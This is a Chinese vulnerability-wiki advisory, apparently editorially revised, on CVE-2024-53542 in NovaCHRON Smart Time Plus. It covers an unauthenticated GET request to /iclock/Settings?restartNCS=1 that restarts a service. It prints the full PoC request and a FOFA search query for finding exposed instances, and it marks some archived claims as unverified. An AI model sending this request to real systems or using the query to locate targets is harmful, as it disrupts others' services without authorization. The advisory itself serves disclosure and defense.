

# NovaCHRON Smart Time Plus Settings/restartNCS 访问控制问题（CVE-2024-53542）

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：NovaCHRON Smart Time Plus
- 文献类型：服务重启PoC
- 版本、权限及部署边界：文称8.x–8.6，未认证GET /iclock/Settings?restartNCS=1
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题addProject与正文Settings/restartNCS完全不一致，确认模板污染；产品应SmartTimePlus而非公司全名
2. 描述重启NCServiceManger服务但警告目标机器重启，两种影响需区分并核实；标破坏性请求
3. frontmatter title=残缺，正文FOFA完整；在野/影响广无引用，修复版本缺失；图片未视检

### 操作风险

描述重启NCServiceManger服务但警告目标机器重启，两种影响需区分并核实；标破坏性请求

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

  NovaCHRON Zeitsysteme GmbH & Co. KG Smart Time Plus v8.x至v8.6的组件/iclock/Settings中的错误访问控制允许攻击者通过精心设计的GET请求任意重启NCServiceManger。

# 影响版本

Smart Time Plus v8.x 至 v8.6 版本

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文有请求 | 原文声明已公开 | 原文声明已公开 | 待核，原文未附依据 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="smart time plus" && body="smart"

POC/EXP：**破坏性请求，可能重启 NCServiceManger 服务并中断业务；原文“目标机器重启”与服务重启并非同一结论，主机重启效果尚未核实。仅在授权隔离环境评估。**

```
GET /iclock/Settings?restartNCS=1 HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1
 
```





# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
